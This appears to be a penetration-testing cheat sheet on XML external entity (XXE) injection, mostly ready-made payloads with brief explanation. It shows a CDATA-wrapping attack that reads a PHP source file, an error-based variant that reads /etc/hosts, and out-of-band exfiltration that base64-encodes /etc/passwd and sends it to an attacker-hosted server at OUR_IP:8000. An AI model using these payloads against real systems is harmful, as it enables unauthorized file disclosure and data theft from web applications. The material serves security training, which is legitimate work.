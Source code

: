 
```shell-session
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server 8000
```

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

## Error Based XXE

Put this in a dtd file and host it
```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```


Put this in the XML

```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

# Blind Data Exfil
In the previous section, we saw an example of a blind XXE vulnerability, where we did not receive any output containing any of our XML input entities. As the web server was displaying PHP runtime errors, we could use this flaw to read the content of files from the displayed errors. In this section, we will see how we can get the content of files in a completely blind situation, where we neither get the output of any of the XML entities nor do we get any PHP errors displayed.


## Out-of-band Data Exfil

Put this as xxe.dtd
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

Put this in XML with content in a field.
```xml
<!DOCTYPE email [
<!ENTITY % remote SYSTEM "http://10.10.14.255:8000/xxe3.dtd">
%remote;
%oob;
]>

&content;
```
